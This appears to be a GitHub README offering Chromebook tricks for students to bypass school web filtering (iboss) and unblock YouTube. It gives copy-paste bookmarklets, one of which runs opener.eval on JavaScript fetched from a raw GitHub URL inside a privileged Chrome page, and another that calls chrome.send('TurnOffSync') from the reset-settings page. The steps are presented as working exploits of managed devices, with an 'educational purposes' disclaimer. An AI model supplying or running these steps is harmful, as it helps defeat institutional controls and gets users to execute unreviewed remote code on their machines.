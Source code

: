 ## Tools for teachers and responsible students. If you do not have a brain, turn back now. This repo is only for people with brains.
## I do not condone any misuse of the tools included here. Use responsibly and at your own risk.
## Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.

<details>

<summary><b>blow up iboss + unblock youtube?</b></summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary><b>extension thingie for youtube</b></summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary><b>Unblock Youtube</b></summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>

i love rice

